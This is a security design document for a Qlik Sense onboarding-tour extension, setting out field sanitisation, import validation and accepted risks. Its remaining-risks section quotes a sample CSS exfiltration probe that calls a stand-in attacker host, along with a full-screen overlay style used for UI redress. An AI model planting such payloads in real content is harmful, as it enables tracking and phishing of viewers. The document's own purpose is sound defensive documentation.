



# Security — Tour Step System

> **Scope:** Onboard.qs tour step rendering, storage, and import/export pipeline.
> **Audience:** Extension developers, Qlik administrators.
> **Last updated:** 2026-04-02

---

## Overview

The tour system processes user-authored content — titles, descriptions, CSS selectors,
button labels — that is stored in Qlik Engine and eventually rendered into the browser
DOM via the [driver.js](https://driverjs.com/) library.

Because driver.js renders several fields using `innerHTML`, every value that reaches
the library must be sanitized first. The extension applies a layered defence:

1. **DOMPurify** sanitises rich-text descriptions (Markdown → HTML).
2. **`stripHtml()`** reduces plain-text fields to zero-tag output before they
   reach `innerHTML`.
3. **Import-time sanitization** strips HTML from all plain-text fields when a
   tour JSON file is imported.
4. **URI allowlist** (optional) restricts which origins can appear in embedded
   `<iframe>`, `<video>`, and `<source>` elements.
5. **Platform CSP** (Qlik Cloud tenant or client-managed proxy) provides an
   additional defence-in-depth layer the extension does not control.

---

## Data flow and trust boundaries

---

## How each field is protected

| Field                | Scope     | Sanitization                                                                               | DOM method          | Notes                                                                                                                                                                                            |
| -------------------- | --------- | ------------------------------------------------------------------------------------------ | ------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| `popoverDescription` | Step      | `markdownToHtml()` → DOMPurify (whitelist + URI filter)                                    | `innerHTML`         | Rich text — supports Markdown, images, video embeds. DOMPurify strips all event handlers, `javascript:` URIs, and non-whitelisted tags. Optional URI allowlist restricts embedded media origins. |
| `popoverTitle`       | Step      | `stripHtml()` — DOMPurify with `ALLOWED_TAGS=[]`                                           | `innerHTML`         | Plain text only. All HTML tags and attributes are removed.                                                                                                                                       |
| `nextBtnText`        | Tour      | `stripHtml()`                                                                              | `innerHTML`         | Plain text only.                                                                                                                                                                                 |
| `prevBtnText`        | Tour      | `stripHtml()`                                                                              | `innerHTML`         | Plain text only.                                                                                                                                                                                 |
| `doneBtnText`        | Tour      | `stripHtml()`                                                                              | `innerHTML`         | Plain text only.                                                                                                                                                                                 |
| `overlayColor`       | Tour      | `safeCssColor()` — regex pattern match                                                     | `style.fill` on SVG | Must match hex, `rgb()`, `rgba()`, `hsl()`, `hsla()`, or a short named color. Invalid values fall back to the default.                                                                           |
| `customCssSelector`  | Step      | **None**                                                                                   | `querySelector()`   | See [Remaining risks — CSS selector injection](#css-selector-injection).                                                                                                                         |
| `tourName`           | Tour      | `escapeHtml()` in editor, `textContent` in widget                                          | varies              | Editor rendering escapes HTML; widget uses `textContent` (no HTML interpretation).                                                                                                               |
| `showCondition`      | Step/Tour | Qlik expression engine                                                                     | server-side eval    | Evaluated within the Engine's expression sandbox.                                                                                                                                                |
| Imported fields      | Import    | `sanitizeImportData()` strips HTML from all plain-text string fields; 1 MB file size limit | —                   | Runs before merge/save. `popoverDescription` is left untouched because it is sanitised at render time.                                                                                           |

### DOMPurify configuration

`markdownToHtml()` calls `DOMPurify.sanitize()` with the following additions to the default allowlist:

| Added tags                  | Added attributes                                                                                                                                               |
| --------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `iframe`, `video`, `source` | `target`, `rel`, `style`, `controls`, `autoplay`, `muted`, `loop`, `poster`, `preload`, `playsinline`, `allowfullscreen`, `allow`, `loading`, `referrerpolicy` |

Everything else (event handler attributes like `onclick`/`onerror`, `<script>`, `<object>`, `<embed>`, `data:` URIs, `javascript:` URIs, etc.) is **stripped** by DOMPurify's default rules.

### URI allowlist

The property panel **Security** section exposes a `security.allowedUriPatterns` setting — a comma-separated list of URL prefixes (e.g. `https://www.youtube.com/embed/, /content/Default/`).

When configured, `markdownToHtml()` post-processes the DOMPurify output and removes any `<iframe>`, `<video>`, or `<source>` element whose `src` attribute does not start with one of the allowed prefixes. `<video>` elements that lose all their `<source>` children are also removed.

When **empty** (default), all sources are allowed. The platform's Content Security Policy still applies as an independent control.

---

## Import / export pipeline

**Structural checks** (`validateImportData`):

- Top-level must be a JSON object with a `tours` array.
- Each tour must have a `tourName` (string), `tourId` (string), and `steps` (array).

**Content sanitization** (`sanitizeImportData`):

| Tour-level fields sanitised                                             | Step-level fields sanitised         | Fields left untouched                                                |
| ----------------------------------------------------------------------- | ----------------------------------- | -------------------------------------------------------------------- |
| `tourName`, `nextBtnText`, `prevBtnText`, `doneBtnText`, `overlayColor` | `popoverTitle`, `customCssSelector` | `popoverDescription` (sanitised at render time via `markdownToHtml`) |

**Export** files are plain JSON with no signing or encryption. See [Remaining risks — Export integrity](#export-file-integrity).

---

## Tour editor and widget rendering

The tour editor (`src/ui/tour-editor.js`) and widget renderer (`src/ui/widget-renderer.js`) have their own sanitization for the editing UI itself (separate from tour playback):

| Context                                  | Method                            | Detail                                                                                               |
| ---------------------------------------- | --------------------------------- | ---------------------------------------------------------------------------------------------------- |
| Tour/step names in editor list           | `escapeHtml()`                    | Creates a detached `
`, sets `.textContent`, reads `.innerHTML` — robust against HTML injection. |
| Input `value` attributes in editor forms | `escapeAttr()`                    | Escapes `&`, `"`, `<`, `>`.                                                                          |
| Tour names in the floating widget menu   | `textContent`                     | Native DOM — no HTML interpretation.                                                                 |
| Widget button label                      | `escapeHtml()` before `innerHTML` | Escaped before insertion.                                                                            |
| Toolbar button label                     | `escapeHtml()` before `innerHTML` | Escaped before insertion.                                                                            |

---

<!-- ## Remaining risks -->

### CSS injection via `style` attribute

**Severity:** Low
**Status:** Accepted

DOMPurify allows the `style` attribute on all whitelisted elements. This is needed for responsive video sizing (`max-width: 100%`) and custom image dimensions. However, it enables:

- **Exfiltration probes:** `background-image: url(https://attacker.example/log?token=...)` triggers a GET request when the element renders. An attacker with editing access could use this to confirm a user viewed a specific tour step.
- **UI redress:** `position: fixed; z-index: 999999; top: 0; left: 0; width: 100vw; height: 100vh` could overlay the entire Qlik Sense sheet with attacker-controlled content.

**Possible future mitigation:** Add a DOMPurify `afterSanitizeAttributes` hook that parses the `style` value and strips properties outside a known-safe set (`max-width`, `width`, `height`, `margin`, `padding`, `border-radius`, `border`, `display`, `text-align`). This must be balanced against legitimate styling use cases.

### CSS selector injection

**Severity:** Low
**Status:** Accepted

`customCssSelector` is passed directly to `document.querySelector()`. This is inherently safe from script execution — `querySelector` only searches the DOM, it does not evaluate code. However:

- **Runtime errors:** A syntactically invalid selector throws `DOMException`, which the tour runner catches gracefully (the step is skipped).
- **Unintended targeting:** A broad selector like `body` or `.qv-page-container` could highlight security-sensitive UI or obscure the sheet behind a full-page overlay.
- **Future risk:** If a future browser or library change adds side effects to `querySelector`, unsanitised selectors become a wider risk.

**Possible future mitigation:** Validate the selector with a try/catch `document.querySelector(selector)` dry-run before storing, or restrict the selector to a safe subset (e.g. must start with `#`, `.`, or `[data-`).

### Iframe clickjacking (without URI allowlist)

**Severity:** Medium (when URI allowlist is not configured)
**Status:** Mitigated when the admin configures `security.allowedUriPatterns`

When the URI allowlist is empty (the default, for backward compatibility), any URL can appear in an `<iframe>` src. An attacker with app editing access could embed a convincing phishing page inside a tour step.

**Defence-in-depth:** The Qlik platform's Content Security Policy (CSP) may block external origins depending on tenant or proxy configuration. This is outside the extension's control.

**Recommendation:** Administrators should configure `security.allowedUriPatterns` in the property panel to restrict iframe sources to trusted origins. Document this in deployment guides.

### Tour name collision in "Replace Matching" merge

**Severity:** Low
**Status:** Accepted — by design

The "Replace Matching" import mode intentionally overwrites existing tours whose `tourName` matches an imported tour. An attacker who knows the names of existing tours could craft an import file that silently replaces their content.

**Mitigating factors:**

- The user must explicitly choose the "Replace Matching" merge mode.
- Import requires app editing permissions.
- The import dialog shows a confirmation before applying.

### Export file integrity

**Severity:** Low
**Status:** Accepted — not planned

Exported JSON files have no digital signature or integrity hash. A modified export file is indistinguishable from a legitimate one.

**Mitigating factors:**

- Import sanitises all plain-text fields (stored XSS is blocked regardless of file provenance).
- Export/import is a local operation between trusted editors.
- Adding signatures would require key management infrastructure that exceeds the extension's scope.

### Denial-of-service via deeply nested JSON

**Severity:** Low
**Status:** Partially mitigated

The 1 MB file size limit prevents large-payload DoS. However, a small file with extreme nesting depth could still cause `JSON.parse` to consume excessive stack/CPU within the 1 MB budget.

**Mitigating factors:**

- Browsers handle `JSON.parse` natively in optimised C++ — stack overflow would throw a catchable error.
- Practical tour structures are shallow (tours → steps → flat fields).

**Possible future mitigation:** Add a maximum tour count and step-per-tour count check after parsing (e.g., reject imports with > 100 tours or > 500 steps per tour).

### Qlik expression injection

**Severity:** Info
**Status:** Delegated to Qlik Engine

Several fields support Qlik Dollar Sign Expansion (`expression: 'optional'` in the property panel). Expression evaluation is handled server-side by the Qlik Engine, which has its own sandboxing. The extension does not evaluate expressions client-side.

**Consideration:** An expression like `=GetCurrentUser()` in a visible field could expose information about the viewing user. This is consistent with Qlik's security model (editors can see all data), but administrators should be aware that expressions in tour content execute with the viewing user's permissions.

### DOMPurify bypass (dependency risk)

**Severity:** Info
**Status:** Monitored

The extension depends on DOMPurify (`^3.3.3`) for all HTML sanitisation. A vulnerability in DOMPurify itself would compromise the entire sanitization pipeline. This is an inherent risk of any sanitisation-library approach.

**Mitigating factors:**

- DOMPurify is the most widely used and actively maintained HTML sanitiser for JavaScript.
- The dependency is pinned with a caret range and updated via Renovate.
- The extension uses DOMPurify as a whitelist (not a blacklist), which is resilient to unknown-tag bypasses.

**Recommendation:** Keep DOMPurify updated. Monitor [DOMPurify security advisories](https://github.com/cure53/DOMPurify/security) and bump promptly when patches are released.

### driver.js innerHTML behaviour (dependency risk)

**Severity:** Info
**Status:** Mitigated at the extension layer

driver.js (`^1.3.1`) renders `title`, `description`, and button labels via `innerHTML`. The extension mitigates this by sanitising all values before they reach driver.js. If a future driver.js version changes its rendering behaviour (e.g., adds new fields rendered via `innerHTML`), the extension's sanitisation must be updated to match.

**Recommendation:** When upgrading driver.js, audit the new version's popover rendering for any additional fields that use `innerHTML` or similar unsafe DOM APIs.

---

## Sanitization pipeline summary

Legend: green = sanitised path, orange = accepted risk.

---

## Key files

| File                                                          | Security role                                                                                                                                                                                                               |
| ------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| [src/util/markdown.js](../src/util/markdown.js)               | `markdownToHtml()` — DOMPurify configuration, URI allowlist filtering. `stripHtml()` — zero-tag sanitisation for plain-text fields.                                                                                         |
| [src/tour/tour-runner.js](../src/tour/tour-runner.js)         | `buildDriverSteps()` — sanitises `popoverTitle` via `stripHtml()`, passes URI options to `markdownToHtml()`. `runTour()` — sanitises button labels, validates overlay color. `safeCssColor()` — CSS color regex validation. |
| [src/tour/tour-io.js](../src/tour/tour-io.js)                 | `validateImportData()` — structural validation. `sanitizeImportData()` — strips HTML from plain-text import fields. `importFromFile()` — 1 MB file size limit.                                                              |
| [src/ext/security-section.js](../src/ext/security-section.js) | Property panel Security section — URI allowlist configuration.                                                                                                                                                              |
| [src/ui/tour-editor.js](../src/ui/tour-editor.js)             | `escapeHtml()`, `escapeAttr()` — used in the editor's own rendering.                                                                                                                                                        |
| [src/ui/widget-renderer.js](../src/ui/widget-renderer.js)     | Uses `textContent` and `escapeHtml()` for tour names and button labels in the widget.                                                                                                                                       |

---

## Future work

| Priority | Item                               | Description                                                                                    |
| -------- | ---------------------------------- | ---------------------------------------------------------------------------------------------- |
| **Low**  | CSS property allowlist for `style` | DOMPurify hook to restrict inline styles to a safe property set                                |
| **Low**  | CSS selector validation            | Dry-run or syntax-check `customCssSelector` before storage                                     |
| **Low**  | Import depth/count limits          | Reject imports exceeding reasonable tour/step count thresholds                                 |
| **Info** | Export signing                     | HMAC or similar integrity check for export files (low priority given import-time sanitisation) |
